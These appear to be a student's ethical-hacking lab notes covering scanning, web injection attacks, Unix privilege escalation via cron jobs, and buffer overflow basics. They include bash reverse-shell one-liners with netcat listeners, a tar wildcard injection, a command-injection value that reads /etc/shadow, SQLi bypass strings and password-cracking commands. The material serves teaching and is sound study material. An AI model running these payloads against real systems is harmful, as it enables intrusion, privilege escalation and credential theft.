


# ETH Lab Lesson note
----
## 00 - DISCLAIMER 
These notes were taken during the laboratory sessions of Ethical Hacking, therefore the content inside does not entirely come from my own head. However, I try where possible to rework and enhance the quality of the notes themselves, adding material taken from the internet, etc. Furthermore, what follows is nothing but the '*surface*' of an immense world. Happy reading.

---

## 01 - Vulnerabilities

### What is a vulnerability
A vulnerability refers to a *weakness* or *flaw* in an IT system that attackers can **exploit** to compromise its security or functionality, potentially leading to unauthorized access, data breaches, or system malfunctions.
Important references for vulnerabilities are:
- **CVE** (*Common Vulnerabilities and Exposures*) is a standardized reference of known vulnerabilities.  Each vulnerability has a unique identifier and with a [0.0, 10.0] score (CVSS);
- **CWE** (*Common Weakness Enumeration*) is a community-developed list of software and hardware weakness types;
- **KEV** (*Known Exploited Vulnerabilities*) is compilation of identified vulnerabilities with known exploits, aiding in proactive mitigation strategies and defense reinforcement.

### How to search for Vulnerabilities?
There are several ways, the most used:
- **Network-based** vulnerability scanners (*e.g.* **Nmap**);
- **Authenticated/Agent-based** vulnerability scanners (*e.g. log into the machine using SSH and scan filesystem, memory...*);
- **Dependency vulnerability** scanners (*e.g. **OWASP** Dependency-Check, is a widely open-source tool that scan project dependencies to identify known vulnerabilities in libraries and frameworks*). 

#### NMAP - Enumeration
Nmap is a powerful enumeration tool. Most used scan types of nmap are:
- **TCP** Scans (`-sT`);
- **SYN** Half-open/Stealth Scans (`-sS`) (to bypass firewall);
- **UDP** Scans (`-sU`);

Other options:
- With `sudo nmap` &rarr; default is SYN scan (syn, syn/ack, rst);
- Without `sudo nmap` &rarr; default is TCP scan (syn, syn/ack, ack);
- Ping sweep (`-sn`), tells nmap not to scan any ports, forcing it to rely primarily on ICMP echo packets.

Script that determines the underlying OS of the SMB server: 
- `smb-os-discovery.nse`

To search of lua script: 
- `grep "ftp" script.db` or `ls -l /usr/share/nmap/scripts/*ftp*`

Firewall Evasion:
- SYN, NULL, FIN and Xmas scans or try nmap with `-Pn`, which tells nmap to not bother pinging the host before scanning it (typically the firewall block all ICMP packets: so because nmap use ping to establish the activity of a target, it will register a host with this firewall configuration as dead and not scanning it at all).

Once vulnerabilities are identified, you can use **Metasploit** to exploit these vulnerabilities.

### METASPLOIT
Metasploit is a widely-used penetration testing framework used for discovering, exploiting, and validating security vulnerabilities in computer networks and systems.

---

## 02 - Remote Access
Remote access enables legitimate remote management of computer systems or networks for operational needs, but if not secured, it poses cybersecurity risks, as attackers might exploit vulnerabilities for unauthorized access to sensitive data.

A **remote exploit** is typically aimed at executing some code that reads or writes some file on the remote system &rarr; the executed code will often give the attacker a shell (RCE - Remote Code Execution, to execute programs on the target system). 
Here the two main example:
- Upload a **Web Shell** to the target machine; 
- Inject a **Reverse Shell** in the context of the server. The Reverse Shell connects back to the attacker who can now interact with the OS. Shell is also used for privilege escalation, LOCALLY (*e.g. exploiting a buffer overflow on a setuid binary, spawn a privileged shell*).

### Type of shell
A shell is needed when you want interactivity with the target system. Several types of shells exist:
- **Web Shell**: is a script or a program uploaded to a web server to provide a remote access and control over the server via a web-based interface;
- **Reverse Shell**: is a shell session initiated by a target system towards an attacker-controlled system;
- **Bind Shell**: is a shell session initiated by a target system that listen for incoming connections on a specified port. It waits for an attacker to connect to it, providing remote access and control over the target system.

In practice, you rarely need to write your own shell, but you can use tools like **Netcat**, **Socat**, **LotL**, **Metasploit Shell**. 

### NETCAT (nc)
Netcat is a Unix utility which reads and writes data across network connections, using the TCP or UDP protocol. It can performs various network-related tasks, including: Port scanning; File transfer; Reverse shell (server); Bind shell (client).

### SOCAT🐈
It is a versatile network tool similar to Netcat, but with expanded functionality and capabilities. It allows for bidirectional data transfer between two endpoints over various types of connections, including TCP, UDP, Unix sockets, SSL/TLS (making it an excellent tool for encrypted shells). 

### LotL (Living Off the land) - bash
When you don't have `nc` or `socat` on the victim box you can leverage legitimate tools or built-in functionalities of an operating system or software. 

### Metasploit shell
It has two type of payloads (shell are payloads):
- **Inline** (stageless): the payload is self-contained in the exploit code, without any need for additional stages or components to be downloaded or executed on the target system (to minimize network activity);
- **Staged**: the payload is delivered in multiple staged. For example the payload creates the staging platform &rarr; allocate enough memory to hold the desired payload &rarr; obtain the rest of the payload &rarr; execute the payload.

### Web Shells
They are shells delivered by exploiting vulnerabilities in web applications and , less commonly, by leveraging vulnerability in web servers. 
Vulnerabilities allowing Web Shell include: Arbitrary file upload; Various kind of injection (SSTI and SQLi); Remote file inclusion (RFI); Local file inclusion (LFI). 

---

## 03 - Web Security p1
Usually a website comes with: **HTML** (*foundation*), **CSS** (*aesthetics*) and *JavaScript* (*dynamic behavior*). They often utilize additional frameworks and libraries. 

### OWASP 
**OWASP** - *Open Worldwide Application Security Project* is an open community dedicated to enabling organizations to develop, purchase, and maintain applications and APIs that can be trusted. OWASP top ten manta ins the list of top 10 web application and top 10 API security issues. 

### Web Application Enumeration
It is the process of systematically identifying and cataloging information (e.g. using **Gobuster**) about a target web application. It is essential in the reconnaissance stage and lateral movement. 

#### GOBUSTER
It is a brute-forcer for URLs, vhosts, DNS subdomain, GCP buckets...

#### BURPSUITE 
It is a Multiplatform, integrated, suite and graphical tool for performing security testing of web applications: It supports the entire testing process, from initial mapping and analysis of an application's attack surface, through to finding and exploiting security vulnerabilities. In essence, Burp Suite is a Java-based framework designed to serve as a comprehensive solution for conducting web application penetration testing. Burp Suite captures and enables manipulation of all the HTTP/HTTPS traffic between a browser and a web server.

Let's explore some of the key features:
- **Proxy**: The Burp Proxy is the most renowned aspect of Burp Suite. It enables interception and modification of requests and responses (between the user and the target web server) while interacting with web applications;
- **Repeater**: Another well-known feature. Repeater allows for capturing, modifying, and resending the same request multiple times.

##### BURPSUITE REPEATER
Repeater is particularly well-suited for tasks requiring repetitive sending of similar requests, typically with minor modifications. 

How to use it:
- Open firefox, activate `foxy proxy`;
- Return to burpsuit and select `intercept is on`;
- Go to firefox and put the URL;
- Open burpsuit to proxy section, right click `send to repeater`;
- Now in the repeater do the modification you want;
- Make sure you leave the two blank lines at the bottom of the request!;
- To get internal server error 500 put an extreme input like negative -1.

### Path Traversal
It is the process of crafting malicious input to access unauthorized files and directories, by exploiting vulnerabilities in how applications handle user-supplied input. 

### File Upload
It is caused by unchecked uploads: server allows any file type without validation (or validation can be bypassed):
- **Malicious File Types**: upload harmful scripts (e.g. PHP, ASP) for RCE;
- **Content Tampering**: Uploads can modify website content or user data.

---

## 04 - Web Security p2

### Local File Inclusion (LFI)
LFI is the process to trick the web application to load, render and possibly execute some content from a LOCAL source. Typically it afflicts web services with poor control over user-input variables, particularly PHP's `GET` and `POST` variables or also `COOKIES`. Path traversal is a type of LFI.

### Remote File Inclusion (RFI)
In this case we try to trick the application to load some content from a REMOTE source. It is similar to LFI but can be more dangerous. A remote content is included in the page rendered server-side.

### Injection
Briefly, an injection is a manipulation that can be used to make an application perform unintended actions. It happens when:
- The application directly incorporates user-supplied data into dynamic queries or commands;
- The application doesn't perform proper escaping or context-aware handling.

Common types of injection are:
- **XSS**;
- **SQL** / **NoSQL** injection;
- Server Side Template injection (**SSTi**);
- **OS command injection**.

#### Cross Site Scripting (XSS)
In this type of injection an attacker injects malicious code into a vulnerable website. The victim visit the website and the code is executed in their browser. The code can then access the victim's cookies, session data, and other sensitive information or it can "force" not intended actions.
There are 3 types of XSS: Reflected, Stored and DOM-based:
- **Reflected XSS**: The attacker send malicious code to the victim in a URL or form. The victim submits the URL or form and the code is reflected back to them and executed in their browser;
- **Stored XSS**: The attacker store malicious code on a server, such as in a forum post or comment. When the victim views the page, the code is executed in their browser. The code is executed EVERY TIME. The affected page is loaded by any user, regardless of the victim's actions;
- **DOM-based XSS**: The DOM is manipulated to inject malicious code. Through a variety of techniques, such as JavaScript's event handlers. The code execution is triggered by SPECIFIC USER INTERACTIONS, such as clicking a link, modifying form data, or running JavaScript code within the page.

##### XSS Consequences:
- We can **steal sensitive information** like cookies, session tokens, or other sensitive data stored in the user's browser;
- **Session hijacking**: impersonate legitimate users and gain unauthorized access to accounts or system;
- **Website defacement**: malicious code can be injected to alter the website's appearance and content.

##### XSS Mitigations:
- **Input validation** on the server-side to sanitize user input before storing it;
- **Output encoding** is crucial for stored XSS to prevent script execution when displaying untrusted data;
- For DOM-based XSS, **secure coding practices** and careful handling of user-controlled data within client-side scripts are essential.

#### SQL Injection (SQLi)
SQLi is an attack on a web application database server that causes malicious queries to be executed.

##### In-Band SQLi
- `https://website.thm/blog?id=2;--` produce the SQL statement: `SELECT * from blog where id=2;-- and private=0 LIMIT 1;` 
The semicolon in the URL signifies the end of the SQL statement, and the two dashes cause everything afterwards to be treated as a comment. By doing this, you're just, in fact, running the query:
	- `SELECT * from blog where id=2;--` (in-Band sql injection)
- `database()` return the name of the database (`0 UNION 1,2,database()`);
- `group_concat()` gets the specified column from multiple returned rows and puts it into one string separated by commas;
- `information_schema database` contains information about all the databases and tables the user has access to.

##### Blind SQLi
It is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless.
A simple way to bypass a form:
- put `' OR 1=1;--` in the password field which turns the SQL query into the following:
	- `select * from users where username='' and password='' OR 1=1;`

##### Time-Based
The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 

#### Server Side Template Injection (SSTi)
Web application often use template languages, which help separate structure and presentation of a web page  from the business logic (*e.g. Pug, NodeJs, and Jinja, Python*). Sometimes web application insecurely render use user as a part of the template...
Since templating languages typically allow running native code, SSTi often leads to RCE. If we cannot do RCE, impact can be sever:
- **Information Disclosure**: read sensitive files or exfiltrate user data;
- **DoS**;
- **Defacement**.

#### OS Command Injection
It is the most direct form of RCE. A system is vulnerable to OS Command Injection when it insecurely use user input to build a command line. For instance;
- A Network looking glass on the Internet;
- A firewall configuration script of a SOHO router.

##### How to detect an OS Command Injection?
Similar in principle to SQLi: we terminate the shell in command and add out own code. If the application code is:
- `nmap -sS ${TARGET_IP} -oX`;

We could inject something like:
- `localhost;cat /etc/shadow; #`

To get:
- `nmap sS localhost;cat /etc/shadow; # -oX`

---	

## 05 - Hacking Unix p1
	
### Lateral Movement and Privilege Escalation

**Privilege Escalation (PE)** is the act of gaining higher-level access by exploiting:
- Bugs;
- Design flaws;
- Configuration oversights;
- User's mistakes.

These same principles can be used to gain access to other non-privileged users. Moving from one user to another is called **Lateral Movement**. The latter is possible thanks to:
- The additional information gathered with the initial access, *e.g., passwords found somewhere on the system*;
- The change in accessible scope, *e.g., services, systems, or applications not previously accessible*.

#### The Confused Deputy Problem
In the context of Cybersecurity it is a specific type of Privilege Escalation: computer program tricked by another agent, with fewer privileges, into misusing its authority.  Examples:
- **XSS** - trick victim's browser into executing arbitrary JavaScript;
- **FTP bounce scan** (nmap) - trick 3rd party FTP server.
- **CSRF** - forces user to execute unwanted actions on a web application in which they're currently authenticated;
- Abuse **sudo/SetUID** applications to do unintended things. 

### Exploiting SetUID/SetGID and sudo

#### Quick recap on UNIX permissions: SetUID/SetGID
Linux uses a combination of bits to store the permissions of a file. Using `chmod` command we essentially change the `r`, `w`and `x` characters associated with the file. The ownership of files also depends on the `uid` (user ID) and the `gid` (group ID) of the creator. Similarly, when we launch a process, it runs with `uid` and `gid` of the user who launched it.

The SetUID bit is present for files which have executable permissions. It simply indicates that when running the executable, it will set its permissions to that of the user who created it (owner), instead of setting it to the user who launched it.  The SetGID bit does the same for the gid. To locate the setuid, look for an `s` instead of an `x` in the executable bit of the file permissions.

#### What we can do with setuid programs?
Abusing setuid/setgid programs may allow PE if:
- Can (be forced to) read/write files → may leak sensitive data
- Can be forced to print errors insecurely → may leak sensitive data;
- Can be forced to execute code that we control:
	- execute other programs that we control;
	- load shared objects that we control;
	- vulnerable to some other code injection (e.g., buffer overflow).
	
#### Exploiting sudo

##### Quick recap on UNIX permissions: sudo
Sudo (SuperUser-DO) allows running programs as root:
- The user invoking sudo must be enabled to do so;
- Administrators can grant sudo privileges to specific users or groups using the `/etc/sudoers` file;
- Unless specified otherwise in sudoers, the invoking user must enter their password. *Note: often in security testing, you impersonate users w/o knowing their password*.

In short, **sudo** set the UID and GID to those of the superuser. 
		
---	

## 06 - Hacking Unix p2

### Exploiting cronjobs
Cron is a task scheduler on Unix-like systems, which allows defining commands to execute periodically. Schedules are specified in cron expressions within crontab files. You can use `crontab -l` to show cronjobs for the current user. Cron jobs often do maintenance for services often running **root**. If we can tamper with what those cron jobs are executing, we can execute commands as root. We are going to see 3 different methods.

#### Method 1 - Writable cron scripts
The `overwrite.sh` script is executed every minute and it's world-writeable. 
You can write inside the script to create a bind or reverse shell:
1. Create a listening server with **netcat** on the local machine: 
	- `nc -lp 8888`
2. Overwrite `overwrite.sh` with:
	- `bash -1 >& /dev/tcp/127.0.0.1/8888 0>&1`
3. Wait for the cron job to be executed

As we have seen before, this cron job is executed every minute with the root user. So, on average after 30 seconds, Privilege Escalation is achieved: we got a root shell. 

#### Method 2 - Insecure crontab PATH
`overwrite.sh`is executed using its relative path &rarr; `bin/sh` will search it in each directory in the PATH env variable. 

Can we write in any of the directories in PATH coming **before** the location of `overwrite.sh`? 
1. Create a listening server with **netcat** on the local machine:
	- `nc -lp 7777`;
2. Create a file named `overwrite.sh` in `/home/user/` containing, make it executable:
	- `#!/bin/sh`;
	- `bash -i >& /dev/tcp/127.0.0.1/7777 0>&1`.
3. Wait for the cron job to be executed.

#### Method 3 - Insecure scripts
The * wildcard is expanded by the shell and passed to the command (tar in this case). Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) we learn that **tar** can execute external commands as part of a checkpoint feature:
1. Create listening server with **netcat** on the local machine:
	- `nc -lp 9999`;
2. Create an executable script, named `myshell.sh`, in the user directory:
	- `#!/bin/sh`;
	- `bash -i >& /dev/tcp/127.0.0.1/9999 0>&1`.
3. Create fake files in the user home (where the * is expanded), to trick **tar**:
	- `touch /home/user/--checkpoint=1`;
	- `touch /home/user/--checkpoint-action=exec=shell.elf`.
4. Wait for the cron job to be executed.

What happened?
After wildcard expansion, **tar** has been executed as:
	- `tar czf /tmp/backup.tar.gz \
			--checkpoint=1 --checkpoint-action=exec=myshell.sh myshell.sh tools`

### Password and keys
Having an initial foothold on a system means that we can gather more details like:
- Configuration files;
- Shell History;
- Keys.
	
#### Configuration files
If we got the foothold by exploiting a server, we should be impersonating the user used by the server. Configuration file or the application (e.g. web application) might contain password, e.g. database password. 

##### Example scenario
We exploited a web application
1. Get the DB password from configuration files;
2. Access the database (we will see later how to reach this, if needed)
	- Data exfiltration could also happen here
3. Gather application users and passwords.

In general, if the exploited servers have users, try to gather their password. Why? Humans reuse passwords: 
- Enumerate local machine users (e.g., `cat /etc/passwd`);
- Try passwords gathered (e.g., `su - <user>`)

##### Cracking password
If we need to crack hashed passwords, we can use rainbow tables...But...Good applications encrypt passwords, better applications also do it properly:
- using **salt** and recommended algorithms, like Argon2 or **Bcrypt**;

We can use wordlists and cracking applications: this is particularly useful if the application used salt. There are two popular tools:
- [John the ripper](https://www.openwall.com/john/) - multipurpose cracking tool:
	- `john --format=crypt --wordlist=/usr/share/seclists/Passwords/darkweb2017-top10000.txt hashes.txt`
- **hashcat** - fast, optimized for GPUs:
	- `hashcat -a0 -m1400 ./sha256-hashes.txt ~/Developer/rockyou/rockyou.txt 

#### Shell history
If the “service user” has been used for interactive sessions, or if we have moved laterally to an interactive user, **shell history** might reveal useful information to perform PE:
- Leak passwords;
- Common operations which we can use to gather more information. 

##### Realistic scenario

#### Other keys
When elevating privileges or moving laterally, we might want to gather authentication material like keys, to log into other systems and gather more information. Typical examples:
- SSH keys;
- GPG keys - e.g., social engineering.

### LinPEAS 
[LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) - Linux Privilege Escalation Awesome Script, is a script that searches for possible paths to escalate privileges on Unix (not just Linux) hosts: 
- Checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation);
- Searches for possible Privilege Escalation Paths;
- Doesn't have any dependency!.

It is noisy, leave tracks + easily detected by EDR (Endpoint Detection and Response). When running CTFs, use `-a` option to perform extra checks:
- searches for more possible hashes inside files;
- brute-force each user using su with the top2000 passwords. 

#### Example
How being in the docker group be a PE vector?
User is unprivileged, but: They can be root in a container ⇒ they could access the host filesystem as root.

### Linux Exploit Suggester (LES)
[LES](https://github.com/The-Z-Labs/linux-exploit-suggester) assist in detecting security deficiencies for a given Linux kernel/Linux-based machine:
- Assess kernel exposure on publicly known exploits:
	- For each exploit, exposure is calculated : Highly probable / Probable / Less probable / Unprobable
- Verify state of kernel hardening security measures. 

---

## 07 - Binary Exploitation p1

### Useful Concepts
#### CPU Registers
A register is a **quickly accesible memory** location available to a computer's processor. It usually consist of a small amount of fast storage, although some registers have specific hardware functons, and may be read-only or write-only. 

From the image above:

Special (non-general purpose) registers for x86-64:
- **rbp** - base or frame pointer: start of the function frame;
- **rsp** - stack pointer: current location in stack, growing downwards;
- **rip** - instruction pointer: points to the next instruction the CPU will execute;

Some other registers and their conventional use
- **rsi** - register source index (source for data copies);
- **rdi** - register destination index (destination for data copies);
- **rcx** - typically the index in loops.

#### Call Stack
It is a stack-like structure, which stores information about the **active subroutines** of a computer program. 

#### Function prologue and epilogue
- **Function prologue**: a few lines of code at the beginning of a function. It prepares the stack and registers for use within the function.

- **Function epilogue**: appears at the end of the function. It restores the stack and registers to the state they were in before the function was
called

### Security Measures

#### Stack Canary

A stack canary is a random value put on the stack between the local variables of a function and the saved `$rbp`
register (i.e., the frame pointer) + the function return address. The value is checked when the function returns: if different from the original, the program is terminated. Canary logic is produced by the compiler

#### ASLR - Address Space Layout Randomization 
It is developed to prevent exploitation of memory corruption vulnerabilities. *Example: Prevent an attacker from reliably jumping to a particular function in memory*.
ASLR randomly arranges the address space positions of key data areas of a process, including:
- the base of the executable;
- the positions of the stack;
- heap and libraries.

#### PIC/PIE
PIC (Position Independent Code) / PIE (PI
Executable) are code that does not depend on being loaded in a particular
memory address. PIC is used for shared libraries: is shared code that can be “loaded” at any location. Within the linking program's virtual address space
PIC is also used for executable binaries (PIE):
- Implemented for hardening purposes;
- Default on modern Linux distros. 

### Shared libraries
Body of PIC, shared by multiple binaries (Libc is an example).
Executables don’t know the location of functions they need in shared libs. The dynamic linker (that is ld.so, for Linux) is responsible for resolvin those addresses:
- On each function call - aka lazy binding;
- On program load;
- On program load w/ RELRO (RELocation Read-Only) - default for modern distros.
Dynamic linking is implemented through:
- Procedure Linkage Table (PLT);
- Global Offset Table (GOT).

#### GOT and PLT

##### PLT
PLT contains a set of stubs or trampolines responsible for redirecting control flow to the dynamic linker during the first invocation of a function in the shared library. Subsequent calls will go to the real function in the shared library. Each entry in the PLT corresponds to a function in a shared library used by the executable (determined at compile time).

##### GOT
The GOT is a table that contains addresses of global data and functions. Initially, the entries in the GOT point to the corresponding PLT stubs. The first time the dynamic linker resolves the addresses of library functions, it updates the GOT entries with the resolved addresses (assuming lazy binding). From that moment, subsequent call to the same library functions go to the library.

### Calling conventions
Describe the interface of called code (e.g., functions). It’s part of the ABI (Application Binary Interface):
- The order in which atomic (scalar) parameters, or individual parts of a complex parameter, are allocated;
- How parameters are passed - pushed on the stack, placed in registers, or a mix of both;
- Which registers the called function must preserve for the caller;
- How the task of preparing the stack for, and restoring after, a function call is divided between the caller and the callee.

### Shellcodes
Small piece of code used as the payload in the exploitation of a software vulnerability written in machine code for the target system (hardware and OS). It typically spawns a shell but, being arbitrary code, it can for instance:
- Create a bind shell with TCP;
- Create a reverse shell via TCP or UDP;
- Open the Windows Calculator app.

**To understand shellcodes, we need to understand syscalls**:
Syscalls are the Kernel APIs - programmatic way for a program to request a service from the kernel, which controls the core functionalities of the system bridge between a program and the operating system kernel. Each syscall has a number. 
Calling conventions for syscalls are different from “normal” functions, some of them:
- The kernel interface uses rdi, rsi, rdx, r10, r8 and r9 - syscall number in rax;
- Done via the syscall instruction;
- Returning from the syscall, register rax contains the result of the system-call:
	- A value in the range between -4095 and -1 indicates an error, it is `-errno`.
- Only values of class INTEGER or class MEMORY are passed to the kernel.

---

## 08 - Binary Exploitation p2

### Stack-Based Buffer Overflows
When a program allows overflowing a buffer created on the stack (i.e., local variables to a function), we are able to overwrite:
- Local variables coming after the overflowed one;
- Saved frame pointer (`$rbp`);
- Return address of the function.

When the function returns, the instruction pointer (`$rip`) is set to
a value we can control (via the overflow). Controlling the instruction pointer **is a central concept of buffer overflow attacks**.

> ℹ️ **Reminder**: stack canary makes this attack ineffective

The canary is checked before returning from the function:
- If it differs from expected value &rarr; the program is aborted. Sometimes overwriting other local variables can also be effective!

### Executable Stack
The stack is meant to contain data, but (binary) code is data. A buffer overflow can be used to inject and run (return to) arbitrary code. Assuming that:
- The stack memory region is executable - otherwise no code execution (Unless we can read and reconstruct the canary)
- No stack canary is used - otherwise, can’t control the IP (via return address);
- ASLR is off - otherwise, stack base-address is random (Unless you can learn the address).

> ℹ️ **Note**: Thanks to the popularity of BOs, those conditions are _neither the default nor considered
good practices_ on modern Linux distros and compilers.

### Return Oriented Programming (ROP)
A buffer overflow can be used to execute “arbitrary code”. Assuming that:
- No stack canary is used - otherwise, can’t control the IP (via return address);
- ASLR is off - otherwise, code address (libraries and executable) is random;
- There is something interesting to “jump” to, via return address:
	- In other words, we can find all the ROP gadgets we need.

ROP allows an attacker to execute code in the presence of security defences -
e.g., non-executable stack:
- ROP is used to hijack program control flow to executes carefully
chosen machine instruction sequences called “gadgets”;
- Gadgets are already present in the machine's memory;
- Gadgets, typically, end in a return instruction;

Chained together, gadgets allow arbitrary operations

### Ret to function
Is the simplest ROP we can imagine. In this case, the buffer overflow is used “only” to overwrite the return address:
- The address is set as the address of some interesting function, or somewhere in its body. 

### Ret to libc
What if there is nothing interesting to return to in our program? We can return to any function we know the address of!
- This includes libraries linked dynamically;
- Functions in libc are great candidates as libc is almost always needed:
	- Exception: statically linked programs (e.g., Golang).
